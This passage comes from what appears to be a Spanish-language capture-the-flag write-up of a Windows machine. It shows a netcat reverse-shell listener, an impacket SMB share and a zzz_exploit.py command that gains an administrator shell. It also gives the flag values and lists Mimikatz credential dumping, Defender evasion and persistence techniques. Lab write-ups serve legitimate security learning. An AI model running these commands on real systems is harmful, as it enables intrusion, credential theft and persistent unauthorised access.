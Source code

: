 Ahora nos ponemos en escucha con netcat en el puerto 7896 que es el que hemos indicado en el fichero de zzz_exploit.py.
```python
sudo rlwrap nc -nlvp 7896
```

Entonces ejecutamos por el siguiente orden:
```python
sudo impacket-smbserver smbFolder $(pwd) -smb2support
```

```python
sudo rlwrap nc -nlvp 7896
```

```python
python2 zzz_exploit.py 10.129.9.50 samr
```

Y si vamos a la pestaña donde tenemos netcat ahi tenemos acceso ya a la shell y somos administradores.


---

# Lateral Movement to user

Nos movemos hasta Users y harris para ver la flag

---

# Privilege Escalation

Ya somos administradores una vez tengamos la shell por lo que no hay escalada de privilegios

---

# Trophy & Loot
user.txt
c1dc7b412f15f182526df312ed15cd1f

root.txt
23970aa0bbcd1716c686bc8d454a1e1a

---
# Extra

Como hemos accedido root muy facilmente vamos a mostrar una serie de pasos que podemos hacer ahora para conseguir contraseñas y acceso remoto 

Obtaining credentials stored in memory MIMIKATZ + Windows Defender Evasion
Enabling RDP from CrackMapExec 
Windows Persistence techniques  
Windows Persistence - Playing with debugger When a user opens a program
Windows Persistence - Playing with Gflags When a user closes a program
Windows Persistence - Playing with WMI Events Executing tasks at regular intervals of time
Persistence + Windows Defender Evasion Playing with Ebowla
